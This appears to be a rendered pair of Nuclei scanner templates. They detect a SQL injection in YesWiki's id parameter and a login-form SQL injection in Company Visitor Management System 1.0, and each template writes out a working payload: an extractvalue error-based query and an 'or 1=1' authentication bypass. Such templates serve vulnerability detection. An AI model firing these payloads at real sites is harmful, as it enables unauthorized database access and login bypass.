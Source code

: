 ## Description

- YesWiki before 2022-07-07 contains a SQL injection vulnerability via the id parameter in the AccueiL URL. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - yeswiki,sqli,huntr

## Requests

- Method - GET

### URL

- {{BaseURL}}/?PagePrincipale/rss&id=1%27+and+extractvalue(0x0a,concat(0x0a,(select+concat_ws(0x207c20,md5({{num}}),1,user()))))--+-

### Matchers

**Type - word**

- part - body
- words
  1. c8c605999f3d8352d7bb792cf3f

**Type - status**

- status
  1. 200

---

# Company Visitor Management System 1.0 - SQL Injection

## Description

- Company Visitor Management System 1.0 contains a SQL injection vulnerability via the login page in the username parameter. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.

- severity - critical
- tags - cvms,sqli,auth-bypass,cms,edb,packetstorm

## Requests

### Step - 1

```
POST /index.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

username=admin%27+or+%271%27%3D%271%27%23&password=nuclei&login=

```
